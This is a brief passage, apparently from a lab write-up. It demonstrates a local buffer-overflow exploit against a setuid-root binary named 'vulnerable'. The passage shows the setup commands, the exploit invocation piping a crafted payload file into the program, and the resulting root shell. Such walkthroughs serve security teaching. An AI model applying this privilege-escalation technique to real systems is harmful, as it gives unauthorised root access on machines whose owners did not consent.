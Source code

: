 ```
# chown root vulnerable
# chmod 4755 vulnerable
```

## Start The Exploit

```
$ python exploit.py
$ (cat badfile.txt ; cat) | ./vulnerable
Try to exec /bin/sh
Read 112 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
Returned properly.
whoami
root
```

Our exploit was successful in obtaining a root shell!









